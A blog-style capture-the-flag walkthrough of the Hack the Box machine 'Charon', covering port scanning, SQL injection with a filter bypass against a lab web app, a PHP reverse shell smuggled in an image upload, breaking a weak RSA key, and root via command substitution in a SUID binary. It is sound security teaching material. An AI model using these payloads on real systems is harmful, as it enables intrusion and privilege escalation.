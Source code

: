```yaml
---
layout: post
title:  "Hack the Box - Charon"
date:   2017-11-17 16:16:01 -0600
categories: hackthebox sqli html escape hacking writeup
---
```


<img class="header-img" src="{{ "img/charon/home.png" | relative_url }}" />

The first step, as (almost) always, is to enumerate any open ports on the machine.

{% highlight shell %}
~ » nmap 10.10.10.31 -sS -A
Nmap scan report for 10.10.10.31
Host is up (0.022s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; p
| ssh-hostkey:
|   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
|   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
|_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Frozen Yogurt Shop
Warning: OSScan results may be unreliable because we could not find a
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 3.2.0 (90%), Lin%), Linux 3.10 - 4.8 (85%), Linux 3.2 - 4.8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.54 ms 10.10.14.1
2   22.95 ms 10.10.10.31

OS and Service detection performed. Please report any incorrect resul
Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
{% endhighlight %}

Only 22 and 80 are open, so let's continue to enumerate and see what we can find on port 80. It appears to be a page for the "Freeeze" frozen yogurt shop. Everything is static except for the blog posts, which have URLs of the form: `http://charon.htb/singlepost.php?id=10`. Simple manual testing indicates that this is vulnerable -
{% highlight shell %}
http://charon.htb/singlepost.php?id=0%20union%20select%201,1,1,1,1
{% endhighlight %}
so let's put sqlmap on the case, and keep moving forward:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/singlepost.php?id=10" --level=5 --risk=3 --technique=U
{% endhighlight %}
(Bizarrely, sqlmap fails on this simple injection. In any case, this database isn't useful to us.)

Moving onwards, what should stick out to you is that the footer indicates this site is powered by "SuperCMS." That means we should definitely start looking for the login portal for "SuperCMS." This doesn't appear to be an actual CMS system, so we'll have to fall back to dirbuster to enumerate. I used the default wordlist `directory-list-2.3-medium.txt` which pretty quickly hits `/cmsdata/login.php`.

This leads us to a login page that appears not to be vulnerable to SQL injection, and a "Forgot Password" page that looks like it might be. The reasoning here is that the Login page returns the same error messages no matter what is passed, and has no discernible blind SQLi vulnerabilities. Meanwhile, the forgot password page gives at least 2 different types of errors:
```
' -> Incorrect format
x@x.c -> User not found with that email!
```

A handy trick for running / debugging sqlmap is to run it through Burpsuite:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/cmsdata/forgot.php" --data="email=x@x.c"  --level=5 --risk=3 --proxy=http://localhost:8080
{% endhighlight %}
sqlmap comes back with a potential blind SQLi vulnerability:
{% highlight shell %}
[...]
sqlmap identified the following injection point(s) with a total of 1122 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=x@x.c' RLIKE (SELECT (CASE WHEN (3782=3782) THEN 0x7840782e63 ELSE 0x28 END))-- DcMQ
---
[14:26:33] [INFO] the back-end DBMS is MySQL
[...]
{% endhighlight %}
but something that sticks out right away are the responses for UNION based injections:
<img src="{{ "img/charon/burp.png" | relative_url }}" />

Their response size and error message were drastically different than the rest, so let's take a closer look.

Working our way down the  <a href="https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF">WAF Bypassing Strings list</a>, we quickly find that changing the casing on `UNION` gets us past the error. Using the limitations that we know of (the queryset must return an email), and expanding the union count, we hit the jackpot on:
`' UnION SELECT 'x@x.c', 'x@x.c', 'x@x.c', 'x@x.c`
<img src="{{ "img/charon/bingo.png" | relative_url }}" />

The next step is to subsitute different values for `x@x.c` to see what gets echoed back to us and what has to be an email. After a short period, we quickly find this:
`' UnION SELECT '', (payload), '', 'x@x.c`.
From there we either manually query the database, or use our favorite tool, but we can quickly get the list of users and passwords (there are some other tricky aspects to this SQLi like dummy data, orderings, etc., but I'll leave that to the reader as an exercise):
`super_cms_adm / tamarro`

After logging in, there a few possible vulnerabilities: we can edit existing pages, create new pages, and upload images. Let's take a look at the image upload first. After doing a few probing tests, it's discovered that there is both client and server-side checks to make sure we're uploading an actual image, and that the extension is that of an image. Right when we're about to call this a dead end, we inspect the HTML source and see something funny:
{% highlight html %}
<form action="upload.php" method="POST" onsubmit="javascript:return ValidateImage(this);" name="frm" enctype="multipart/form-data">
<input type="file" name="image" />
<!-- <input type=hidden name="dGVzdGZpbGUx"> -->
<input type="submit"/>
</form>
{% endhighlight %}

`dGVzdGZpbGUx` looks a lot like base64, and when we decode it, we get `testfile1`, so clearly this is a tool for testing the upload. What happens when we decode it, give it a value, and try to upload something (I took a Blank.png file and inserted a reverse PHP shell into the middle of it to bypass the image restrictions):
<img src="{{ "img/charon/burp2.png" | relative_url }}" />

It renames the file for us! This lets us rename our "image" to a `.php` file and the web server will execute it as PHP and give us a reverse shell.

Once on the box, we quickly `cd` to `/home/decoder` and find a public key and encrypted password.
{% highlight shell %}
$ cat decoder.pub
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
{% endhighlight %}

This is an extremely short key, and is trivially breakable (via something like <a href="https://github.com/Ganapati/RsaCtfTool">RsaCtfTool</a>). Once we break it and get the private key, we can decrypt `pass.crypt` which gives us the ssh password for decoder.

Now we can SSH in as decoder, `cat user.txt` and begin to think about priv esc. One of my first steps during priv esc is always `sudo -l` and to look for SUID/SGID binaries:
{% highlight shell %}
$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/supershell
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/newuidmap
/bin/ntfs-3g
/bin/ping6
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
{% endhighlight %}

`supershell` is obviously very suspect here, and is our most likely route to root. Let's try to figure out how this works:
{% highlight shell %}
$ supershell
Supershell (very beta)
usage: supershell <cmd>
$ supershell cat /root/root.txt
Supershell (very beta)
usage: supershell <cmd>
$ ltrace supershell
__libc_start_main(0x40082f, 1, 0x7fff323b28d8, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
puts("usage: supershell <cmd>"usage: supershell <cmd>
)                                    = 24
exit(1 <no return ...>
+++ exited (status 1) +++
$ ltrace supershell "ls ."
__libc_start_main(0x40082f, 2, 0x7ffc3bb1aa88, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
strncpy(0x7ffc3bb1a890, "ls ,", 255)                               = 0x7ffc3bb1a890
strcspn("ls ,", "|`&><'"\\[]{};#")                                 = 4
strlen("ls ,")                                                     = 4
strncmp("ls ,", "/bin/ls", 7)                                      = 61
+++ exited (status 0) +++
{% endhighlight %}

So, it's making sure we're _only_ running `/bin/ls` and that our input doesn't contain any of `` |&><'"\\[]{};#\` ``. To get around this requires a little bash knowledge, and a little creativity. First, it's pretty obviously missing a 3 big characters from it's blacklist: `$()`. This lets us execute a command _before_ `ls` runs. After doing a few local tests, it seems `ls` outputs the full file contents of a file if you try to list it:

{% highlight shell %}
~ » echo "givemeroot" > test_file
~ » ls "$(cat test_file)"
ls: cannot access 'givemeroot': No such file or directory
{% endhighlight %}

From there, it's simple:

{% highlight shell %}
$ supershell "/bin/ls \$(cat /root/root.txt)"
/bin/ls: cannot access 'REDACTED': No such file or directory
{% endhighlight %}